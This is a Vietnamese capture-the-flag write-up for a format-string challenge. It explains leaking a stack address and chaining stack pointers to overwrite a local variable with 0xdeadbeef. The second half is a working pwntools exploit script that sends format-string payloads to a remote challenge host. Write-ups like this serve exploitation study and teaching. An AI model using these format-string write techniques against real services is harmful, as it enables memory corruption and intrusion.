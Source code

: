 checksec : 

![image](https://hackmd.io/_uploads/S1zp3CoHJe.png)

- 1 điều đặc biệt nữa là khi mình xem lại thì là bài này cần thay đổi 1 giá trị trên stack , không hiểu sao IDA nó decomplie không hiện lên :v

![image](https://hackmd.io/_uploads/BybmTRjHkl.png)

- ta sẽ cần thay đổi ```rbp+var4``` thành 0xdeadbeef , thay đổi giá trị này thì sẽ khá dễ dàng nếu ta có thể nhập trên stack , tuy  nhiên ở đây input của ta sẽ nhập vào bss , vậy làm sao khai thác được?
- ở đây ta sẽ cần phải leak địa chỉ stack cần ghi -> ghi vào 1 giá trị trên stack để nó trỏ đến giá trị của ta 

![image](https://hackmd.io/_uploads/HyBx0RjBkg.png)

ví dụ A->B->C , thì ta sẽ ghi B->C bằng B->địa chỉ stack chứa giá trị cần ghi  , cuối cùng là ghi giá trị vào 

giống như ở trên ảnh :  ```0x7fffffffda18``` -> ```0x7fffffffdcc0```  , và check ```0x7fffffffdc9a``` -> xem có trỏ đến 1 địa chỉ stack khác gần giống với địa chỉ stack ta cần ghi không , nếu giống thì thay đổi 1,2 byte cho nó biến thành địa chỉ stack chứa giá trị cần ghi , lúc này thì ta ghi như bình thường

script hơi lỏ vì mình lười sửa lại :>> 


```python
#!/usr/bin/env python3

from pwn import *

context.binary = exe = ELF('./rev_patched',checksec=False)

#p = process()
#gdb.attach(p,gdbscript='''
#            b*main+166
#           ''')
#input()
p = remote('23.146.248.230', 12321)
p.sendlineafter(b'String: ',b'p$31%')
leak = int(p.recvline()[10:-1],16) - 0x11c
print(hex(leak))
leak_1 = str(leak)
leak_1 = leak_1.encode()

print(leak)
leak_2 = leak+2
print(hex(leak_2))
leak_2 = str(leak_2 & 0xff)
leak_2 = leak_2.encode()
print(leak_2)
#p.sendlineafter(b'String: ',b'')
leak_1 = leak_1[::-1]
print(leak_1)
leak_2 = leak_2[::-1]
print(leak_2)
offset = 28
payload = b'%8$hn'
p.sendlineafter(b'String: ',b'nh$31%' + b'c' + leak_1 + b'%')
p.sendlineafter(b'String: ',b'nh$34%c97884%')
p.sendlineafter(b'String: ',b'nhh$31%' + b'c' + leak_2 + b'%')
p.sendlineafter(b'String: ',b'nh$34%c50075%')

p.interactive()
```